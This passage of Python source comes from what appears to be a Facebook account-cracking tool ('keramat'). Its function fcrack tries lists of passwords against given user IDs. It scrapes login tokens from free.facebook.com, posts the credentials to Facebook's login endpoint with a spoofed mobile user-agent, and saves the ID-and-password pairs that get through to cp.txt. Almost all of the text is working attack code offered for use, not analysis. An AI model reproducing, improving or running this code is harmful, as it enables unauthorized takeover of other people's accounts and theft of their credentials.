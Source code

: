 	print(47*"-")
	print('[✓] Crack process has been completed')
	print('[?] Ids saved in ok.txt,cp.txt')
	print(47*"-")
	input('Press Inter To Back Menu')
	fia()
#_____
def fcrack(uid,pwx,tl):
	#print(user)
	global loop
	global cps
	global oks
	global ugen
	try:
		for ps in pwx:
			session = requests.Session()
			sys.stdout.write(f'\r [\033[1;97mkeramat\033[1;97m] %s|OK:-%s \r'%(loop,len(cps))),
			sys.stdout.flush()
			ua = random.choice(ugen)
			free_fb = session.get('https://free.facebook.com').text
			log_data = {
				"lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
			"jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
			"m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
			"li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
			"try_number":"0",
			"unrecognized_tries":"0",
			"email":uid,
			"pass":ps,
			"login":"Log In"}
			header_freefb = {'authority': 'mbasic.facebook.com',
			'upgrade-insecure-requests': '1',
			'viewport-width': '980',
			'method': 'GET',
            'scheme': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
		'accept-language': 'en-BD,en-GB;q=0.9,en-US;q=0.8,en;q=0.7',
    'referer': 'https://mbasic.facebook.com/',
    'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
    'sec-ch-ua-mobile': '?1',
    'sec-ch-ua-platform': '"Android"',
    'sec-fetch-dest': 'manifest',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'same-origin',
	'user-agent': 'Mozilla/5.0 (Linux; Android 11; Redmi Note 9 Pro) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.81 Mobile SFB/15.0.0034.21 Safari/537.36'
			    
			}
			lo = session.post('https://p.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
			log_cookies=session.cookies.get_dict().keys()
			#print(iid+'|'+pws+'|'+str(log_cookies))
			if 'c_user' in log_cookies:
				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
				cid = coki[151:166]
				print('\33[38;5;208m[keramat-CP] '+uid+' | '+ps+'\033[1;32m')
				open('cp.txt', 'a').write(uid+' | '+ps+'\n')
				oks.append(uid)
				break
			elif 'checkpoint' in log_cookies:
				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
				cid = coki[141:156]
				print('\x1b[1;92m[keramat-OK] '+uid+' | '+ps+'\33[0;97m')